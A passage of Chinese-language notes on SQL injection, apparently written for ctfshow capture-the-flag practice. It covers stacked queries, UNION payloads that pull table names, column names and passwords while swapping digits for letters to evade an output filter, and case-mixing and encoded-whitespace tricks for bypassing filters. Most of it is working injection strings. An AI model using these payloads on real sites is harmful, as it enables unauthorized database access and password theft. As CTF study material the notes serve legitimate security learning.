 

## 4.堆叠注入

堆叠注入的原理就是将多条语句堆叠在一起进行执行

```
 select * from users;show databases; 
```



# 2.过滤

## 1.对数字输入有过滤

<font color=red> select 1,2,3 也可以是 select 'a','b','c'</font>

查询表名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(table_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.tables where table_schema=database()--+
```

查询列名

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(column_name),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J') from information_schema.columns where table_name='ctfshow_user4'--+
```

查询内容

```
1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(group_concat(password),'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','L'),'7','Q'),'8','H'),'9','I'),'0','J') from ctfshow_user4--+
```

## 2.union select 过滤

大小写绕过：Union Select

## 3.空格过滤

1.空格过滤使用括号绕过或者

%20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/

  

### **%09 绕过**

```
1'%09union%09select%091,2,group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema=database()%23
```
